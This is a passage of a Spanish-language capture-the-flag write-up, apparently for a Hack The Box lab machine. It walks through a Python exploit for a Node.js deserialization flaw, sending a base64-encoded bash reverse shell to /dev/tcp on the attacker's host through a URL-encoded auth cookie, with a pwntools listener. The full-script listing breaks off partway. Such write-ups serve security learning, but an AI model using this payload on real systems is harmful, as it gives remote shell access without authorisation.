 ```python
Host_ip = sys.argv[1]
Target_ip = 'http://10.10.11.139:5000'
s = requests.Session()
```
Luego, tenemos la siguiente función que se encarga de hacer un url encode completo al string:

```python
def encode_all(string):
    return "".join("%{0:0>2}".format(format(ord(char), "x")) for char in string)
```
La siguiente función, es esta:
```python
def unserialize_attack():

    reverse = f'bash -i >& /dev/tcp/{Host_ip}/1234 0>&1'
    reverse_bytes = reverse.encode("ascii")
    base64_bytes = base64.b64encode(reverse_bytes)
    reversebase64 = base64_bytes.decode("ascii")

    payload= encode_all("""{"rce":"_$$ND_FUNC$$_function (){ require('child_process').exec('echo %s| base64 -d | bash', function(error, stdout, stderr) { console.log(stdout) });}()"}""" % reversebase64)
    cookie = f'auth ={payload}' 
    headers = {
    "Cookie": cookie
    }   
    r = s.get(Target_ip,headers=headers)
```
La cual pasa a base64 la **reverse shell** y lo agrega al **payload**, el cual pasa a url enconde. Toda la data se envía en el header en la petición get.

Finalmente, en el main:
```python
    threading.Thread(target=unserialize_attack, args=()).start()
    shell = listen(1234,timeout=10).wait_for_connection()
    shell.interactive()
```

Tenemos la llamada a la función **unserialize_attack** mientras estamos escuchando por el puerto 1234 la conexión.


El código completo es el siguiente:

```python
import requests,sys,base64
from pwn import *
from os import system

def def_handler(sig, frame):
    print("\n\n[!] saliendo...\n")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

if len(sys.argv) < 2:
    print(f'[!] Uso: python3 {sys.argv[0]} "Tu IP"\n' )
    sys.exit(1)

Host_ip = sys.argv[1]
Target_ip = 'http://10.10.11.139:5000'
s = requests.Session()


def encode_all(string):
    return "".join("%{0:0>2}".format(format(ord(char), "x")) for char in string)

```